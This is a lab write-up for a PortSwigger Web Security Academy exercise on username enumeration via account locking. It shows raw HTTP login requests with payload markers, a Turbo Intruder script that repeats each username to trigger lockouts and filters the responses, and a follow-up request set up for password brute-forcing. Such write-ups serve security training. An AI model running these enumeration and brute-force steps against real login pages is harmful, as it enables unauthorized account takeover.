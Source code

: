 # Lab: Username enumeration via account lock

## Lab Description

This lab is vulnerable to **username enumeration**. It uses **account locking**, but this **contains a logic flaw**. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

- Candidate usernames
- Candidate passwords

## Lab Solution


HTTP Request in the intruder with the username as a payload

```
POST /login HTTP/1.1
Host: 0a9f007a03cc92fd80593a7900980004.web-security-academy.net
Cookie: session=GtD0ZghEpRTHhcpnPchp5xRDadQCI0D4
Content-Length: 29
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a9f007a03cc92fd80593a7900980004.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9f007a03cc92fd80593a7900980004.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=%s&password=admin
```


Edited turbointruder script to not show results which contain Invalid username or password. If the response is different, account got locked.

Also multiplied each word in worlist 5 times.

```
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for word in open('/home/mexie/Documents/Learning/Certs/Portswigger/portswigger-web-security-academy/02. Authentication/usernames.txt'):
        for i in range(5):
            engine.queue(target.req, word.rstrip())

def NotMatchRegex(regex):
    m = re.compile(unicode(regex), re.UNICODE|re.DOTALL|re.MULTILINE|re.IGNORECASE)
    def decorator(func):
        def handleResponse(req, interesting):
            if not m.match(req.response):
                func(req, interesting)
        return handleResponse
    return decorator

@NotMatchRegex(r".*Invalid username or password.*")
def handleResponse(req, interesting):
    if interesting:
        table.add(req)

```

Password bruteforce test

```
POST /login HTTP/1.1
Host: 0a9e0085040b06c68036df35008b008f.web-security-academy.net
Cookie: session=GtD0ZghEpRTHhcpnPchp5xRDadQCI0D4
Content-Length: 32
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a9e0085040b06c68036df35008b008f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9e0085040b06c68036df35008b008f.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=announcements&password=%s
```
input_file="input.txt"; output_file="output.txt"; echo "\"password\" : [" > "$output_file"; while IFS= read -r word; do echo "    \"$word\"," >> "$output_file"; done < "$input_file"; echo "]" >> "$output_file"

```
```
